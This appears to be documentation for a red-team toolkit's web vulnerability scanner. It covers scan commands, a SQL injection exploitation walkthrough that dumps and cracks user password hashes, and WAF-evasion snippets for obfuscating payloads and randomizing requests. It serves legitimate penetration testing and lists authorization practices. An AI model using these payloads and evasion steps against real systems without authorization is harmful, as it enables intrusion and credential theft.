


# Web Vulnerability Scanner



> "The web is a sea of vulnerabilities, waiting to be discovered" — GhostKit Red Team

## Module Overview

The Web Vulnerability Scanner is GhostKit's comprehensive suite for identifying and exploiting web application vulnerabilities. Built with advanced detection engines and evasion techniques, it delivers professional-grade reconnaissance and exploitation capabilities.

### Core Capabilities

- **Crawling & Discovery** - Intelligent content discovery beyond basic spidering
- **Authentication Bypass** - Multiple techniques to circumvent login mechanisms
- **Injection Detection** - Advanced payload generation for SQL, NoSQL, Command, and more
- **XSS Analysis** - Context-aware Cross-Site Scripting detection
- **Business Logic Flaws** - Identification of application-specific vulnerabilities
- **Evasion Techniques** - WAF/IDS bypass methods to prevent detection

## Technical Architecture

The Web Scanner employs a multi-stage pipeline architecture:



## OWASP Top 10 Coverage

| Vulnerability Category | Detection Methods | Exploitation Capabilities |
|------------------------|-------------------|---------------------------|
| Injection (SQL, NoSQL, OS) | Pattern matching, Error analysis, Time-based detection | Automated exploitation, Custom payload generation |
| Broken Authentication | Credential stuffing detection, Session analysis | Session hijacking, Authentication bypass |
| Sensitive Data Exposure | Pattern matching, Information disclosure testing | Data extraction, Encryption analysis |
| XML External Entities | DTD detection, Blind OOB testing | XXE payload generation, Exfiltration techniques |
| Broken Access Control | Horizontal/Vertical privilege testing | Privilege escalation, Access control bypass |
| Security Misconfiguration | Header analysis, Default credential testing | Configuration exploitation |
| Cross-Site Scripting | Context-aware payload testing, DOM analysis | XSS payload generation, Cookie theft demonstrations |
| Insecure Deserialization | Fingerprinting vulnerable libraries, Pattern matching | Deserialization exploit generation |
| Using Components with Known Vulnerabilities | Version fingerprinting, CVE matching | Integration with exploit database |
| Insufficient Logging & Monitoring | Testing log poisoning, Tamper detection | Anti-forensics techniques, Log bypass |

## Basic Usage

```bash
# Basic web scan of a target
python ghostkit.py -m web_scanner -u https://example.com

# Authenticated scan with credentials
python ghostkit.py -m web_scanner -u https://example.com --auth-type form --username admin --password password123

# Full aggressive scan with all modules
python ghostkit.py -m web_scanner -u https://example.com --full-scan --aggressive

# Targeted scan for specific vulnerabilities
python ghostkit.py -m web_scanner -u https://example.com --modules sqli,xss,ssrf

# Scan with custom headers (e.g., for API testing)
python ghostkit.py -m web_scanner -u https://example.com/api --header "Authorization: Bearer token123" --header "Content-Type: application/json"
```

## Advanced Configuration

The web scanner can be fine-tuned through a YAML configuration file:

```yaml
# web_scanner_config.yaml
target:
  url: https://example.com
  scope:
    include_paths:
      - /admin
      - /api
    exclude_paths:
      - /static
      - /logout

authentication:
  type: form
  login_url: https://example.com/login
  username_field: user
  password_field: pass
  credentials:
    username: admin
    password: password123
  success_check: "Welcome, admin"

scanning:
  threads: 10
  request_delay: 0.5
  timeout: 30
  user_agent: "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36"
  cookies: "session=xyz123; language=en"
  follow_redirects: true
  max_depth: 5
  
modules:
  enabled:
    - sql_injection
    - xss
    - csrf
    - ssrf
    - path_traversal
  disabled:
    - xxe
    - insecure_deserialization
    
sql_injection:
  detection_techniques:
    - error_based
    - boolean_based
    - time_based
  test_parameters: true
  test_headers: true
  test_cookies: true
  
reporting:
  format: json
  include_evidence: true
  include_request_response: true
  risk_threshold: medium
```

To use this configuration:

```bash
python ghostkit.py -m web_scanner --config web_scanner_config.yaml
```

## Case Study: Exploiting SQL Injection

This example demonstrates the full workflow of discovering and exploiting an SQL injection vulnerability:

### 1. Initial Discovery

```bash
python ghostkit.py -m web_scanner -u https://vulnerable-webapp.com --modules sqli
```

Output:
```
[+] GhostKit v3.1.4 initializing...
[+] Loading web_scanner module with SQL injection detection
[+] Crawling target website...
[+] Discovered 42 unique URLs and 17 forms
[+] Testing parameters for SQL injection vulnerabilities
[!] HIGH: Potential SQL injection found in parameter 'id' at https://vulnerable-webapp.com/product.php?id=1
[!] Evidence: Parameter 'id' with payload "1' OR '1'='1" returned different content
[+] Testing injection points...
[!] Confirmed SQL injection vulnerability in parameter 'id'
[+] Database type identified: MySQL 5.7
[+] Scan complete. Found 1 SQL injection vulnerability.
[+] Results saved to reports/sqli_scan_vulnerable-webapp.com_20250530.json
```

### 2. Exploitation

After confirming the vulnerability, we can exploit it to extract data:

```bash
python ghostkit.py -m sql_exploiter -u https://vulnerable-webapp.com/product.php --parameter id --technique union
```

Output:
```
[+] GhostKit v3.1.4 initializing...
[+] Loading sql_exploiter module
[+] Testing injection point: parameter 'id'
[+] Determining number of columns... Found: 6
[+] Finding injectable column(s)... Found column(s): 2
[+] Extracting database information:
    [*] Database version: MySQL 5.7.35
    [*] Current database: shopdb
    [*] Current user: shopdb_user@localhost
[+] Available databases:
    [*] information_schema
    [*] mysql
    [*] performance_schema
    [*] shopdb
    [*] sys
[+] Tables in database 'shopdb':
    [*] categories
    [*] customers
    [*] orders
    [*] products
    [*] users
[+] Columns in table 'users':
    [*] id (int)
    [*] username (varchar)
    [*] password (varchar)
    [*] email (varchar)
    [*] role (varchar)
[+] Extracting sample data from users table:
    [*] admin | 5f4dcc3b5aa765d61d8327deb882cf99 | admin@example.com | administrator
    [*] john | 482c811da5d5b4bc6d497ffa98491e38 | john@example.com | customer
    [*] maria | 5f4dcc3b5aa765d61d8327deb882cf99 | maria@example.com | manager
[+] Exploitation complete. Results saved to reports/sql_exploitation_vulnerable-webapp.com_20250530.json
```

### 3. Post-Exploitation

With extracted credentials, we can now attempt lateral movement:

```bash
python ghostkit.py -m password_cracker --hash 5f4dcc3b5aa765d61d8327deb882cf99 --type md5
```

Output:
```
[+] GhostKit v3.1.4 initializing...
[+] Loading password_cracker module
[+] Hash type confirmed: MD5
[+] Running dictionary attack...
[+] CRACKED! Hash: 5f4dcc3b5aa765d61d8327deb882cf99 = "password"
[+] Cracking complete in 3.2 seconds
```

## Evasion Techniques

GhostKit's web scanner implements multiple evasion techniques to avoid detection:

### WAF Bypass Methods

1. **Payload Obfuscation**
   ```python
   # Original payload
   payload = "1' OR 1=1 --"
   
   # Obfuscated payload
   obfuscated = "1'/*!50000 OR*/ 1=1 --"
   ```

2. **Request Distribution**
   ```python
   # Distributing requests across time
   for target in targets:
       # Random delay between 2-7 seconds
       time.sleep(random.uniform(2, 7))
       scan_target(target)
   ```

3. **Header Randomization**
   ```python
   user_agents = [
       "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36",
       "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15",
       # More user agents...
   ]
   
   headers = {
       "User-Agent": random.choice(user_agents),
       "Accept-Language": random.choice(["en-US", "en-GB", "fr-FR", "de-DE"]),
       # More headers...
   }
   ```

## Integration with Other Modules

The web scanner integrates seamlessly with other GhostKit modules:

- **Network Scanner** → Web Scanner → **Exploit Engine**
- Web Scanner → **Credential Harvesting** → **Brute Force**
- Web Scanner → **API Analyzer** → **Data Exfiltration**

Example integration workflow:

```bash
# Network scan to identify web servers
python ghostkit.py -m network_scanner -t 192.168.1.0/24 --service-detection

# Web scan on discovered web servers
python ghostkit.py -m web_scanner --from-file reports/network_scan_*.json --modules discovery,vuln

# Exploit discovered vulnerabilities
python ghostkit.py -m exploit_engine --from-file reports/web_scan_*.json --auto-exploit
```

## Reporting

Web scanner results include comprehensive reporting:

```bash
# Generate an HTML report
python ghostkit.py --report-from reports/web_scan_*.json --format html --output webapp_vulnerabilities.html

# Generate a penetration testing report
python ghostkit.py --report-from reports/web_scan_*.json --format pdf --template pentest --output client_report.pdf
```

Example report includes:

- Executive summary
- Methodology
- Vulnerability findings with severity ratings
- Proof of concept details
- Remediation recommendations
- Technical appendices

## Best Practices

For effective web application testing:

1. **Obtain proper authorization** before scanning any target
2. **Start with passive reconnaissance** before active scanning
3. **Use authenticated scans** when possible for better coverage
4. **Limit scan scope** to prevent unintended impact
5. **Verify findings manually** to eliminate false positives
6. **Document all activities** for proper reporting
7. **Follow responsible disclosure** if vulnerabilities are found

## MITRE ATT&CK Mapping

| Technique ID | Technique Name | GhostKit Module |
|--------------|----------------|-----------------|
| T1590 | Gather Victim Network Information | web_crawler |
| T1591 | Gather Victim Org Information | osint_module |
| T1595 | Active Scanning | web_scanner |
| T1190 | Exploit Public-Facing Application | sqli_module, xss_module |
| T1133 | External Remote Services | auth_bypass_module |
| T1059 | Command and Scripting Interpreter | command_injection_module |
| T1213 | Data from Web Service | data_extraction_module |
| T1552 | Unsecured Credentials | credential_harvester |

## Troubleshooting

| Issue | Possible Cause | Solution |
|-------|----------------|----------|
| Connection timeouts | Network latency, firewall | Increase timeout, use proxies |
| False positives | Overly aggressive detection | Adjust sensitivity settings, verify manually |
| WAF blocking | Detection by defense systems | Enable evasion techniques, reduce scan intensity |
| Authentication failures | Session expiration | Configure proper session handling |
| Incomplete crawling | JavaScript-heavy site | Enable headless browser crawling |

For more specific issues, see the [Troubleshooting Guide](../support/troubleshooting.md).

## References

- [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [PortSwigger Web Security Academy](https://portswigger.net/web-security)
- [GhostKit API Documentation](../development/api-reference.md)

---

*Last updated: May 30, 2025*
